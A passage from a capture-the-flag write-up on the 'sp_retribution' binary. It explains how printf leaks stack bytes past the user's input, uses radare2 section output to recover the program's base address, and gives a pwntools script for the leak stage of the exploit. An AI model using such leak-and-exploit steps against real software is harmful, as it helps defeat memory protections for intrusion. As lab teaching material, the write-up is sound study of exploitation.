 This is how the stack looks after reading our input.  
The purple bytes are what we wrote - an "A" followed by a new line character. But after that there are 4 more bytes until we hit a null byte (red). Because printf will print everything up until it finds a null byte, those 4 additional bytes will get printed as well and are the strange additional characters we saw.  
And it seems like we hit the jackpot there! Because those 4 additional bytes being printed are part of an address pointing to somewhere in our program code (<b>0x5566a140</b>xxxx). It's just the 2 least significant bytes that we don't get because we have overwritten them with our input.  
  
Let's check the sections with the ``iS`` command to get a picture from where that part of the address we got is:

<pre>
nth paddr         size vaddr            vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000     0x0 0x00000000         0x0 ---- 
1   0x00000238    0x1d <b>0x5566a140</b>0238    0x1d -r-- .interp
</pre>

As we can see already from the first entry, the base address of our program lies in the same area as the address we leaked. So just putting two zero bytes for the 2 bytes we didn't leak will give us the base address of our binary which let's us calculate the addresses of everything else contained in the program.  
  
````python
0x5566a140xxxx => 0x5566a1400000 # base address of the program
````
  
## Leaking addresses
So now let's put what we learned until now into a python script:

````python
from pwn import *

r = process("./sp_retribution")

# go to option 2.
r.recvrepeat(0.2)
r.sendline(b'2')
r.recvrepeat(0.1)

# input just 1 char and receive until right before the leaked bytes
r.sendline(b'a')
r.recvuntil(b'y = a\x0a')

# receive the 4 bytes from the leaked address and convert to an int
leak = r.recv(4)
baseaddr = int.from_bytes(b'\x00\x00' + leak, byteorder='little')

print(hex(baseaddr))

r.close()
````
